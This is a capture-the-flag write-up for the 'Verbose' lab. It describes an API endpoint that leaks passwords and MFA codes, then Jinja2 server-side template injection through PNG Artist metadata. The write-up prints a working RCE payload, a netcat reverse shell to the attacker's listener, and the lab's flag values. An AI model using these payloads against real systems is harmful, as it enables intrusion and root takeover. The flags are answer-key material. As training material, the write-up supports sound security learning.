# Lab Report - Verbose


# Overview 
---
- **Difficulty**: Easy
- **Platform**: Linux
- **Link**: https://www.hacksmarter.org/courses/5018ef14-b136-4331-aef0-8fb0a88a3efb

## Resolution Summary 
---
We gained an authenticated access to a web application that did not have any restrictions on user registration. Afterwards, we noticed that an API call was made to the `/api/users/all` endpoint when checking our user's inbox, logged all registered users information (credentials included). After recovering the admin's user credentials, we attempted to log in as admin, but we were asked for an MFA code, which we retrieved by refreshing the page to the `/api/users/all` endpoint. Following that, we accessed an admin panel that allowed us to upload PNG files, which `Artist` metadata field was reflected on the application. Therefore, we abused SSTI to gain RCE as root (whom was running the application) on the target.

# Walktrhough 
---
- First of all, we ran an Nmap scan to reveal available services on the target. We noticed that a web application was running on port 80:
```bash
sudo nmap 10.1.244.178 -p- -vv
```
<p align="center">
  
</p>
- After accessing the web application, we were faced with a login portal. However, we noticed that we could register an account:
```bash
http://10.1.244.178/login
```
<p align="center">
  
</p>
- Therefore, we acceded the `Register` page and created a new user in order to gain an authenticated access to the web application: 
```bash
http://10.1.244.178/register
```
<p align="center">
  
</p>
- Afterwards, we could access our inbox and check for messages. However, using the Dev Tools (Network tab), we noticed that an API call was made to an interesting endpoint `/api/users/all` : 
```bash
http://10.1.244.178/messages
```
<p align="center">
  
</p>
- After manually accessing the endpoint, wee discovered the list of registered users, as well as their passwords. We were particularly interested in the credentials for the `admin` user (which had an admin role, compared to the other users):
```bash
http://10.1.244.178/api/users/all
```
<p align="center">
  
</p>
- Therefore, we attempted to log in as the admin user. Nevertheless, we were prompted for an MFA code. 
```bash
http://10.1.244.178/mfa
```
<p align="center">
  
</p>
- By further inspecting the previous endpoint we discovered, we saw a field `mfa` for users. After refreshing the page, the MFA code for our login request was registered there. 
<p align="center">
  
</p>
- After entering the MFA code, we accessed the admin dashboard and discovered an admin-only tab `Admin Panel`, as well as the first flag: 
```bash
http://10.1.244.178/admin/dashboard
```
<p align="center">
  
</p>
- We discovered that we could upload a PNG file. After upload a benign PNG file, we saw that the application was rendering a specific field from the image's metadata: 
```bash
http://10.1.244.178/admin/logo_preview?file=logo.png
```
<p align="center">
  
</p>
- Not knowing the exact name of the field that the application looked up, we decided to inject the following additional fields inside the image's metadata and upload it again. Afterwards, we discovered that it rendered the content of the `Artist` field: 
```bash
exiftool -Copyright="Copyrights" -Artist="Name" edited_cat.png
```
<p align="center">
  
</p>
- Next, we used payloads in order to identify if a template engine was running, and if so which one it was. We noticed that - given the payload used and the output - Jinja2 was in use, allowing us to confirm that the application was vulnerable to SSTI: 
```bash
exiftool -Artist='{{7*"7"}}' edited_cat.png
```
<p align="center">
  
</p>
- Having confirmed that Jinja2 was being used as a template engine, we attempted to run OS commands to confirm RCE. Not only did it succeeded, but the application was running as `root` too: 
```bash
exiftool -Artist='{{ self.__init__.__globals__.__builtins__.__import__("os").popen("id").read() }}' edited_cat.png
```
<p align="center">
  
</p>
- Finally, we decided to execute a reverse shell to gain an interactive shell on the target as root.
- First, we set up a listener: 
```bash
penelope -p 443
```
- Next, we uploaded the PNG file with an appropriate payload in the `Artist` field:  
```bash
exiftool -Artist='{{ self.__init__.__globals__.__builtins__.__import__("os").popen("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.200.117.200 443 >/tmp/f").read() }}' edited_cat.png
```

- After uploading the malicious PNG file and accessing the logo preview page, we triggered the reverse shell and gained a root shell. We also retrieved the last flag: 
```bash
http://10.1.244.178/admin/logo_preview?file=logo.png
```

```bash
id
cat /root/root.txt
```
<p align="center">
  
</p>
# Trophy 
---
**User.txt → `HSM{a4c1520cec85}`**  

**Root.txt → `HSM{a3fec2e83dad}`**

# Lessons Learned
---
- Think about SSTI when you see that data is reflected/rendered by the web application.
	- Test whether reflected values are interpreted by a server-side template engine rather than simply displayed.
